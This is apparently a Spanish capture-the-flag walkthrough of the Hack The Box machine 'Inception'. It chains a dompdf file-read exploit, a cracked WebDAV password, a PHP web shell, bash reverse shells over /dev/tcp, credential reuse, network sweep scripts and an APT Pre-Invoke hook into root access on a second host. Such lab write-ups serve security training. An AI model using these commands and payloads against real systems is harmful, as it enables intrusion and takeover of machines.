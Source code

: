 10.10.10.67
-----------



Los puertos abiertos son el 80(http) y el 3128(squid proxy).

El proxy se configura de tal manera, retocando el /etc/proxychains.conf con la linea: ```http 10.10.10.67 3128```
Y comentando la *socks4* de antes  para que no entre en conflicto.

Con el squid proxy se pueden hacer ciertas cosas como enumerar puertos:

```console
└─$ wfuzz -c --hc=404,503 -t 200 -z range,1-65535 -p 10.10.10.67:3128:HTTP http://127.0.0.1:FUZZ

000000022:   200        2 L      4 W        60 Ch       "22"                                                 
000000080:   200        1051 L   169 W      2877 Ch     "80"                                                 
000003128:   400        151 L    416 W      3521 Ch     "3128"
```

Al puerto 22 solo se puede acceder por el proxy.

En cuanto al puerto 80:
```console
└─$ whatweb http://10.10.10.67
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Inspeccionamos la web y no tiene nada (un formulario para enviar un mail pero que no funciona).
En cuanto a los comentarios en el código fuente:
```
<!--[if lte IE 8]><script src="assets/js/ie/html5shiv.js"></script><![endif]-->
<!--[if lte IE 8]><script src="assets/js/ie/respond.min.js"></script><![endif]-->
<!-- Todo: test dompdf on php 7.x -->
```
No se que es dompdf, pero tiene varios exploits ```searchsploit dompdf```
Existe la ruta /dompdf con un monton de phps.

El primer exploit habla de que hay un LFI en la ruta:
```http://10.10.10.67/dompdf/dompdf.php?input_file=/etc/passwd``` Pero no se lee, aun asi existe. 
Para leerlo se puede usar el wrapper php ```?input_file=php://filter/convert.base64-encode/resource=/etc/passwd```

La cosa esque se visualiza en pdf el base64 (pero hay que filtrarlo porque salen mas cosas propias del 
formato pdf), me hice un script para leerlo de manera sencilla.
```bash
#!/bin/bash

archivo=$1
curl -s -X GET "http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/convert.base64-encode/resource=$archivo" | grep -oP '\[\(.*?\)\]' | tr -d "\[\(\)\]" | base64 -d
```
- /etc/passwd -> Existen los usuarios root y cobb (pero este no tiene ninguna id_rsa)
- /proc/net/fib_trie -> la ip de la red interna es: 192.168.0.10
- No podemos hacer un log_poisoning con el /var/log/auth.log (no hay permiso de lectura)
- Como estamos ante un squid proxy podemos leer el archivo de configuracion /etc/squid/squid.conf
- Como la web es apache tirar de /etc/apache/sites-enabled/000-default.conf (o apache2 en este caso)

Hay como unas 3000 lineas del squid.conf, la mayoria comentadas, para quitarlas:
```cat ./squid.conf | grep -v "^#" | grep -ve '^$'```
Pero no hay nada interesante. 
En cuanto al archivo de apache nos da una ruta "AuthUserFile" /var/www/html/webdav_test_inception/webdav.passwd

En ella hay una contraseña -> webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0

```console
└─$ jhon password -w=/usr/share/wordlists/rockyou.txt
babygurl69       (webdav_tester)
```
En el apache.conf dice que esa contraseña vale para la ruta /webdav_test_inception

```console
└─$ davtest -url http://10.10.10.67/webdav_test_inception -auth webdav_tester:babygurl69
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
```
Podemos subir/ejecutar archivos php.
Asi que subirmeos el clasico:
```php
<?php  echo shell_exec($_REQUEST['cmd']); ?>
```
```console
└─$ curl -s -X PUT http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php -d @shell.php
<p>Resource /webdav_test_inception/shell.php has been created.</p>
└─$ curl -s -X GET http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php?cmd=whoami
<pre>www-data</pre>
```
SI le pasamos el comando de reverse shell (con los & urlencodeados a %26)
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'```

La manera es hacer una fake shell para operar con un script (tty over http)[https://github.com/CUCUxii/ttyhttp.py/blob/main/ttyhttp.py]

```console
└─$ rlwrap ./inception.py
~$: script /dev/null -c bash
Script started, file is /dev/null
www-data@Inception:/var/www/html/webdav_test_inception$ 
~$: tty
~$: cd ../
www-data@Inception:/var/www/html/wordpress_4.8.3$
~$: cat wp-config.php
# Encontramos las creds root:VwPddNh7xMZyDQoByQL4
~$: su cobb
Password: 
~$: VwPddNh7xMZyDQoByQL4
cobb@Inception:/var/www/html/wordpress_4.8.3$ sudo -l
[sudo] password for cobb:
~$: VwPddNh7xMZyDQoByQL4
User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
~$: sudo su
root@Inception:/var/www/html/webdav_test_inception# 
~$: whoami
whoami
root
~$: cat root.txt
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```
Como estamos como root pero no hay flag, puede que estemos en un contenedor
```console
~$: hostname -I
192.168.0.10 
```

Si hay que hacer pivoting, hay que detectar maquinas y demas, con esta shell limitada, el subir scripts se 
hace impracticable. Asi que como tenemos la contraseña del Cobb este se usa para ssh.
```console
└─$ sudo proxychains sshpass -p 'VwPddNh7xMZyDQoByQL4' ssh cobb@127.0.0.1
```

MIgramos a root de la misma manera que antes y para el pivoting tenemos que descubrir tanto la otra maquina
como sus puertos

```bash
#!/bin/bash

for host in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 192.168.0.$host > /dev/null 2>&1" && echo "Host: 192.168.0.$host" &
done; wait
```
```console
root@Inception:/tmp# ./host.sh
Host: 192.168.0.10
Host: 192.168.0.1   #  La otra maquina :)
```
El de los puertos quedo asi (el mismo que uso para los escaneos iniciales en todas las maquinas):
```bash
#!/bin/bash

for port in $(seq 1 10000); do
    timeout 1 bash -c "(echo "" > /dev/tcp/192.168.0.1/$port) 2>/dev/null" && echo "Port $port" &
done; wait
```
Nos reporta que los puertos 21 (ftp), 22 (ssh), y 53 (dns) están abiertos.

```console
root@Inception:/tmp# ftp 192.168.0.1 # Usuario anonymous contraseña anonymous
ftp> get crontab
```
```console
root@Inception:~# cat crontab
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
```
Esto significa que se está actualizando el sistema cada 5 minutos. Si pones un archivo especial en:
*/etc/apt/apt.conf.d/* se ejecutará antes de actualizar el sistema.

La manera que hay de explotar esto es escribiendo un archivo: *command*:

```APT::Update::Pre-Invoke {" whoami ";};``` En este caso:
```APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/192.168.0.10/443 0>&1'";};```

```console
root@Inception:~# tftp 192.168.0.1    # Ftp especial.
tftp> put command /etc/apt/apt.conf.d/command   # Dicho archivo se tiene que subir a esta ruta
```
```console
root@Inception:/home/cobb# sudo nc -nlvp 443
root@Inception:/tmp# whoami # root
root@Inception:/tmp# hostname -I
hostname -I
10.10.10.67 192.168.0.1 dead:beef::250:56ff:feb9:5325
```
Con esto ya estaríamos en la segunda máquina

Disclaimer: aprendi a resolver la maquina gracias al maestro @s4vitar.
